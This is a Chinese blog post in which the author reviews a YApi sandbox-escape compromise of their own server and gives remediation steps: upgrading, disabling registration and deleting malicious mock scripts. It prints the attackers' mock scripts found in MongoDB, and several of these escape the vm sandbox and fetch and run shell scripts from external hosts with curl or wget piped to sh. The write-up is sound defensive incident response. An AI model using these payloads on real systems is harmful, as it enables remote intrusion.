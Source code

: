 ```yaml
---
title: YApi 漏洞复盘及解决方案
comments: true
toc: true
permalink: posts/yapi-vulnerability-review/
date: 2021-07-27 06:40:01
categories: Linux
tags:
- Linux
- 漏洞
---
```


今天为了 OPPO 商城的学生认证上了一下教育邮箱，去邮箱验证的时候发现收件箱收了一堆莫名其妙的退信，然后再一看发件箱，发现被拿来发了一堆的广告，感觉大事不妙。

扫了一下发件箱，发现有一条发送给某个随机邮箱说 YApi 注册成功的信息，我在自己的公网服务上是部署了一个 yapi，又想到好像最近有 YApi 的漏洞。

于是登上了 yapi 看了情况，果然多了一堆帐号，查了一下漏洞情况，所幸我是用 Docker 运行的 YApi，看起来服务器是安然无恙的。

<!-- more -->

## 漏洞概述

让专业的人来说：

{% blockquote 0x4qE@知道创宇404实验室 https://paper.seebug.org/1639/ %}

[Yapi](https://github.com/YMFE/yapi) 是高效、易用、功能强大的 api 管理平台，旨在为开发、产品、测试人员提供更优雅的接口管理服务。可以帮助开发者轻松创建、发布、维护 API，YApi 还为用户提供了优秀的交互体验，开发人员只需利用平台提供的接口数据写入工具以及简单的点击操作就可以实现接口的管理。

2021年7月8日，有用户在 GitHub 上发布了遭受攻击的相关信息。攻击者通过注册用户，并使用 Mock 功能实现远程命令执行。命令执行的原理是 Node.js 通过 `require('vm')` 来构建沙箱环境，而攻击者可以通过原型链改变沙箱环境运行的上下文，从而达到沙箱逃逸的效果。通过 `vm.runInNewContext("this.constructor.constructor('return process')()")` 即可获得一个 process 对象。

{% endblockquote %}

推荐大家看看这个原文。

## 好嘛，解决它

这还是我第一次直面漏洞。

看了一些解决方案：

- <https://github.com/YMFE/yapi/issues/2229>
- <https://mp.weixin.qq.com/s/yKDmMrhaWZIOTPsz6zqHYA>

腾讯安全专家建议采用YAPI接口管理平台的政企机构尽快采取以下措施缓解漏洞风险：

### 升级版本

更新 Yapi 至官方发布的 1.9.3，新版本用了更为安全的 safeify 模块，可以有效地防止这个漏洞。

我用的是 <https://github.com/fjc0k/docker-YApi>，

```bash
docker-compose pull yapi-web \
  && docker-compose down \
  && docker-compose up -d
```

### 关闭YAPI用户注册功能

在 `docker-compose.yml` 配置环境变量 `YAPI_CLOSE_REGISTER` 为 true 即可。

然后重启 compose：

```sh
docker-compose restart
```

### 删除 mock 脚本

首先进入 Mongo 的容器内，然后连接数据库，删除掉已有的 mock 脚本：

```bash
docker-compose exec yapi-mongo /bin/bash
mongo

# 数据库相关操作
> show dbs
> use yapi
> show tables
```

然后就能看到本地已有的表，需要删除 mock 脚本，先看一下有什么 Mock 脚本：

```bash
> db.adv_mock.find()
# 就能看到一堆 带有 sandbox 字样的 mock_script
{ "_id" : 10, "enable" : true, "interface_id" : 327, "mock_script" : "const sandbox = this\nconst ObjectConstructor = this.constructor\nconst FunctionConstructor = ObjectConstructor.constructor\nconst myfun = FunctionConstructor('return process')\nconst process = myfun()\nmockJson = process.mainModule.require(\"child_process\").execSync(\"whoami && echo 123456789\").toString()", "project_id" : 59, "uid" : "194", "up_time" : 1601333575, "__v" : 0 }
{ "_id" : 16, "enable" : true, "interface_id" : 332, "mock_script" : "const sandbox = this\nconst ObjectConstructor = this.constructor\nconst FunctionConstructor = ObjectConstructor.constructor\nconst myfun = FunctionConstructor('return process')\nconst process = myfun()\nmockJson = process.mainModule.require(\"child_process\").execSync(\"whoami && echo 123456789\").toString()", "project_id" : 67, "uid" : "201", "up_time" : 1601335228, "__v" : 0 }
{ "_id" : 76, "enable" : true, "interface_id" : 742, "mock_script" : "const sandbox = this\nconst ObjectConstructor = this.constructor\nconst FunctionConstructor = ObjectConstructor.constructor\nconst myfun = FunctionConstructor('return process')\nconst process = myfun()\nmockJson = process.mainModule.require(\"child_process\").execSync(\"whoami\").toString()", "project_id" : 179, "uid" : "299", "up_time" : 1625730796, "__v" : 0 }
{ "_id" : 82, "enable" : true, "interface_id" : 772, "mock_script" : "\n        const sandbox = this; // 获取Context\n        const ObjectConstructor = this.constructor; // 获取 Object 对象构造函数\n        const FunctionConstructor = ObjectConstructor.constructor; // 获取 Function 对象构造函数\n        const myfun = FunctionConstructor('return process'); // 构造一个函数，返回process全局变量\n        const process = myfun();\n        mockJson = process.mainModule.require(\"child_process\").execSync(\"curl -L https://jhx15.zzlxrj.com/Uploads/image/goods/2021-06-07/start.sh | bash -s '46n4YeKAjUp2FcJnx8SFEb5CMK3kMRJ9o9MEuCzWtv2VEF5LYeq6TJKSWV3h4sEj4CQiUmsb2dNMEQcKJZJM8zCYFp7wFoy'\").toString()", "project_id" : 227, "uid" : "355", "up_time" : 1626338890, "__v" : 0 }
{ "_id" : 88, "enable" : true, "interface_id" : 787, "mock_script" : "const sandbox = this\r\nconst ObjectConstructor = this.constructor\r\nconst FunctionConstructor = ObjectConstructor.constructor\r\nconst myfun = FunctionConstructor('return process')\r\nconst process = myfun()\r\nmockJson = process.mainModule.require(\"child_process\").execSync(\"curl http://47.98.198.11:8015/init.sh | bash\").toString()", "project_id" : 243, "uid" : "383", "up_time" : 1625989857, "__v" : 0 }
{ "_id" : 94, "enable" : true, "interface_id" : 792, "mock_script" : "const sandbox = this\r\nconst ObjectConstructor = this.constructor\r\nconst FunctionConstructor = ObjectConstructor.constructor\r\nconst myfun = FunctionConstructor('return process')\r\nconst process = myfun()\r\nmockJson = process.mainModule.require(\"child_process\").execSync(\"wget -qO- http://47.98.198.11:8015/init.sh | sh\").toString()", "project_id" : 251, "uid" : "390", "up_time" : 1625991205, "__v" : 0 }
{ "_id" : 100, "enable" : true, "interface_id" : 827, "mock_script" : "const sandbox = this\r\nconst ObjectConstructor = this.constructor\r\nconst FunctionConstructor = ObjectConstructor.constructor\r\nconst myfun = FunctionConstructor('return process')\r\nconst process = myfun()\r\nmockJson = process.mainModule.require(\"child_process\").execSync(\"wget -qO- http://47.98.198.11:8015/init.sh | sh\").toString()", "project_id" : 267, "uid" : "404", "up_time" : 1626096094, "__v" : 0 }
{ "_id" : 106, "enable" : true, "interface_id" : 832, "mock_script" : "const sandbox = this\r\nconst ObjectConstructor = this.constructor\r\nconst FunctionConstructor = ObjectConstructor.constructor\r\nconst myfun = FunctionConstructor('return process')\r\nconst process = myfun()\r\nmockJson = process.mainModule.require(\"child_process\").execSync(\"wget -qO- http://47.98.198.11:8015/init.sh | sh\").toString()", "project_id" : 275, "uid" : "411", "up_time" : 1626096134, "__v" : 0 }
{ "_id" : 124, "enable" : true, "interface_id" : 922, "mock_script" : "const sandbox = this\r\nconst ObjectConstructor = this.constructor\r\nconst FunctionConstructor = ObjectConstructor.constructor\r\nconst myfun = FunctionConstructor('return process')\r\nconst process = myfun()\r\nvar t = process[\"\\x6d\\x61\\x69\\x6e\\x4d\\x6f\\x64\\x75\\x6c\\x65\"][\"\\x72\\x65\\x71\\x75\\x69\\x72\\x65\"](\"\\x63\\x68\\x69\\x6c\\x64\\x5f\\x70\\x72\\x6f\\x63\\x65\\x73\\x73\")\r\nmockJson=t.execSync(\"wget -qO- http://47.98.198.11:8015/cron.sh | sh \").toString()", "project_id" : 315, "uid" : "425", "up_time" : 1626506262, "__v" : 0 }
{ "_id" : 130, "enable" : true, "interface_id" : 992, "mock_script" : "const sandbox = this\nconst ObjectConstructor = this.constructor\nconst FunctionConstructor = ObjectConstructor.constructor\nconst myfun = FunctionConstructor('return process')\nconst process = myfun()\nmockJson = process.mainModule.require(\"child_process\").execSync(\"echo 123321vul\").toString()", "project_id" : 387, "uid" : "635", "up_time" : 1626766514, "__v" : 0 }

> db.adv_mock.deleteMany({"mock_script" : {$regex : "sandbox"}})
```

可以看到是真的有很多利用脚本。。。

## 后记

这个漏洞很早之前就看过相关新闻，但没联想到会发生在自己身上...
看记录，6.4 号就有人注册了新的 yapi 帐号，止血太晚~

还好是执行在容器里的服务，没有造成太大的损失。

## 参考链接

- <https://github.com/fjc0k/docker-YApi>
- <https://paper.seebug.org/1639/>
- <https://github.com/YMFE/yapi/issues/2229>
